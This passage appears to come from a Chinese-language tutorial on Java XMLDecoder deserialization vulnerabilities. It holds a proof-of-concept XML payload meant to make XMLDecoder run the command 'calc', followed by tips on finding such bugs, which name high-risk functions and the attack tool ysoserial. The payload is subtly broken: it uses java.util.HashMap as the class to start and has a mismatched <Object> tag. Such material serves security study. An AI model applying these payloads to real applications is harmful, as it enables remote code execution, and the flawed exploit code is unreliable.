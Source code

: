 ```java
        + "<void method=\"put\">\n" + "<string>Equipment</string>\n" + "<object class=\"java.util.ArrayList\">\n"
        + "<void method=\"add\">\n" + "<string>Sword</string>\n" + "</void>\n" + "<void method=\"add\">\n"
        + "<string>Shield</string>\n" + "</void>\n" + "</object>\n" + "</void>\n" + "<void method=\"put\">\n"
        + "<string>LV</string>\n" + "<int>1</int>\n" + "</void>\n" + "<void method=\"put\">\n"
        + "<string>Name</string>\n" + "<string>Rookie</string>\n" + "</void>\n" + "</object>\n" + "</java>";
    StringBufferInputStream stringBufferInputStream = new StringBufferInputStream(s);
    XMLDecoder xmlDecoder = new XMLDecoder(stringBufferInputStream);
    Object o = xmlDecoder.readObject();
    System.out.println(o);

  }
}
```

#### decoder_mod

```java
import java.beans.XMLDecoder;
import java.io.IOException;
import java.io.StringBufferInputStream;

import javax.sql.rowset.spi.XmlReader;

public class decoder {

  public static void main(String[] args) throws IOException, InterruptedException {
    String s = "<?xml version=\"1.0\" encoding=\"UTF-8\"?>\n"
        + "<java version=\"11.0.13\" class=\"java.beans.XMLDecoder\">\n" + "<Object class=\"java.util.HashMap\">\n"
        + "<array class=\"java.lang.String\" length=\"1\">\n" + "<void index=\"0\"><string>calc</string></void>\n"
        + "</array>\n" + "<void method=\"start\">\n" + "</void>\n" + "</object>\n" + "</java>";
    StringBufferInputStream stringBufferInputStream = new StringBufferInputStream(s);
    XMLDecoder xmlDecoder = new XMLDecoder(stringBufferInputStream);
    Object o = xmlDecoder.readObject();
    System.out.println(o);

  }
}
```

### 反序列化原理

Java应用对用户输入没有任何过滤, 即不可信数据做了反序列化处理, 攻击者可以通过构造恶意输入, 让反序列化产生非预期的对象, 就有可能造成任意代码执行

### 反序列化漏洞挖掘

* 反序列化漏洞多使用白盒审计方法来挖掘, 黑盒挖掘难度过高
* 在代码中搜索某些高危函数, 如 XMLDecoder.readObject, Yaml.load, XStream.fromXML 等, 确定了反序列化输入点后, 再观察应用的 ClassPath 中是否包含 ApacheCommons Collections 等危险库
* 若包含危险库, 则使用 **ysoserial** 等开源工具进行攻击复现
* 若不包含危险库, 则查看一些涉及命令, 代码执行的代码区域, 防止因代码不严谨, 导致反序列化漏洞的产生
* 查看高危函数的输入点是否可控
